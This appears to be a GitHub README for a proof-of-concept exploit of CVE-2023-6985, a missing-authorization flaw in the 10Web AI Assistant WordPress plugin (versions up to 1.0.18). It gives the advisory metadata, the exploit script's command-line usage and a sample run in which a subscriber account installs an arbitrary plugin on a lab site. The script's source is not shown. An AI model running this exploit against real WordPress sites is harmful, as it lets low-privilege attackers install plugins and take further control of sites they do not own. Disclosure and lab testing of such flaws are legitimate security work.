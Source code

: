 # CVE-2023-6985
10Web AI Assistant – AI content writing assistant &lt;= 1.0.18 - Missing Authorization to Authenticated (Subscriber+) Arbitrary Plugin Installation/Activation Description


### Description

The 10Web AI Assistant – AI content writing assistant plugin for WordPress is vulnerable to unauthorized modification of data due to a missing capability check on the install_plugin AJAX action in all versions up to, and including, 1.0.18. This makes it possible for authenticated attackers, with subscriber-level access and above, to install arbitrary plugins that can be used to gain further access to a compromised site.

```
Severity: medium
CVE ID: CVE-2023-6985
CVSS Score: 6.5
CVSS Metrics: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:H/A:N
Plugin Slug: ai-assistant-by-10web
WPScan URL: https://www.wpscan.com/plugin/ai-assistant-by-10web
Reference URL: https://www.wordfence.com/threat-intel/vulnerabilities/id/229245a5-468d-47b9-8f26-d23d593e91da
Diff URL: https://plugins.trac.wordpress.org/changeset/3027004/ai-assistant-by-10web/trunk/ai-assistant-by-10web.php
Download Vuln: https://downloads.wordpress.org/plugin/ai-assistant-by-10web.1.0.18.zip
```

How to use
---

```
python3 CVE-2023-6985.py -h
usage: CVE-2023-6985.py [-h] --url URL --username USERNAME --password PASSWORD --slug SLUG --php PHP

10Web AI Assistant – AI content writing assistant <= 1.0.18 - Missing Authorization to Authenticated (Subscriber+) Arbitrary Plugin Installation/Activation Description CVE-2023-6985 - The 10Web AI Assistant – AI
content writing assistant plugin for WordPress is vulnerable to unauthorized modification of data due to a missing capability check on the install_plugin AJAX action in all versions up to, and including, 1.0.18.
This makes it possible for authenticated attackers, with subscriber-level access and above, to install arbitrary plugins that can be used to gain further access to a compromised site.

options:
  -h, --help           show this help message and exit
  --url URL            URL of the WordPress site
  --username USERNAME  WordPress username
  --password PASSWORD  WordPress password
  --slug SLUG          WordPress Plugin Slug
  --php PHP            WordPress Plugin PHP file
```

POC
---

```
python3 CVE-2023-6985.py --url http://wordpress.lan --username user --password useruser1 --slug display-php-version --php display-php-version.php
Logged in successfully.
Getting REST API Nonce!
Nonce Found: df8390ff4b
Installing Plugin
Downloading installation package from https://downloads.wordpress.org/plugin/display-php-version.latest-stable.zip
Unpacking the package
Installing the plugin
Plugin installed successfully.
{"success":true}
```

